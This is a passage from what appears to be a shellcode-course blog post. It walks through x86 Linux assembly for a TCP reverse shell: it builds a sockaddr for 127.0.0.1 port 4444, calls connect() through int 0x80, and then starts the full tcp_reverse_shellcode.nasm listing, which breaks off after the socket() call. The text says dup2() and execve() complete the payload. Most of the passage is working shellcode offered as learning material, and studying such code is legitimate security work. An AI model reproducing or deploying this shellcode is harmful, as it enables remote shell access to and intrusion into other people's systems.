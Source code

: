 {%highlight asm%}

; Connect to my peer
;
; connect() is defined as #define __NR_connect 362 on  /usr/include/i386-linux-gnu/asm/unistd_32.h
; peer.sin_family 	= AF_INET;
; peer.sin_port 	= htons(DPORT);
; peer.sin_addr.s_addr = inet_addr(IP);
; ret = connect(sfd, (const struct sockaddr *)&peer, sizeof(struct sockaddr_in));

; 127 = 0x7f
; 0   = 0x0
; 0   = 0x0
; 1   = 0x1

push 0x0100007f
push word 0x5c11 	; port 4444 is 0x5c11
push word 0x2 		; AF_INET is 2


mov ecx, esp
mov dl, 0x10 ; sizeof(struct sockaddr_in)
xor eax, eax
mov ax, 0x16a
int 0x80

{%endhighlight%}

If we put this implementation in our assembler file with socket(), dup2() and
execve() as the same as the first assignment, we obtain this code.
We compile it and we run it.

{% highlight asm %}
; Filename: 	tcp_reverse_shellcode.nasm
; Author:	Paolo Perego <paolo@codiceinsicuro.it>
; Website:  	https://codiceinsicuro.it
; Twitter:    	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	connect to a given IP and PORT and spawning a reverse shell if
;		connection succeded


global _start

section .text

_start:

	; Creating the socket.
	;
	; int socket(int domain, int type, int protocol);
	;
	; socket() is defined as #define __NR_socket 359 on /usr/include/i386-linux-gnu/asm/unistd_32.h
	; AF_INET is defined as 2 in /usr/include/i386-linux-gnu/bits/socket.h
	; SOCK_STREAM is defined as 1 in /usr/include/i386-linux-gnu/bits/socket_type.h
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx

	mov ax, 0x167
	mov bl, 0x2
	mov cl, 0x1
	int 0x80 ; sfd = socket(AF_INET, SOCK_STREAM, 0);
	mov ebx, eax ; storing the socket descriptor into EBX for next syscall

	; Connect to my peer
	;
	; connect() is defined as #define __NR_connect 362 on  /usr/include/i386-linux-gnu/asm/unistd_32.h
	; peer.sin_family 	= AF_INET;
